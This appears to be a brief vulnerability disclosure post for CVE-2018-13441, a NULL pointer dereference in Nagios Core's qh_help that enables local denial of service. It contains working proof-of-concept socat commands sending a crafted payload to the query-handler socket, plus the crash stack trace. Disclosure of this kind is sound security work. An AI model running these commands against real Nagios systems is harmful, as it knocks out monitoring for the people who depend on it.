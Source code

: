 ```yaml
---
layout: post
title: "[CVE-2018-13441] Nagios Core qh_help NULL Pointer Dereference"
date: 2018-07-09
categories:
    - blog
keywords: "nagios, nagioscore, dos, denial of service"
---
```


qh_help in Nagios Core version 4.4.1 and earlier is prone to a NULL pointer dereference vulnerability, which allows attacker to cause a local denial-of-service condition by sending a crafted payload to the listening UNIX socket.

```
$ echo -ne “#help\0" | socat unix-connect:./poc/nagios.qh -
$ echo -ne “@help\0" | socat unix-connect:./poc/nagios.qh -

#0 0x554fef in qh_help /home/user/nagioscore/base/query-handler.c:374:7
#1 0x5543db in qh_input /home/user/nagioscore/base/query-handler.c:227:12
#2 0x6fac51 in iobroker_poll /home/user/nagioscore/lib/iobroker.c:353:4
#3 0x5bc334 in event_execution_loop /home/user/nagioscore/base/events.c:1136:12
#4 0x53a503 in main /home/user/nagioscore/base/nagios.c:844:4
#5 0x7f61587ae82f in __libc_start_main /build/glibc-Cl5G7W/glibc-2.23/csu/../csu/libc-start.c:291
#6 0x42b278 in _start (/home/user/nagioscore/base/nagios+0x42b278)
```
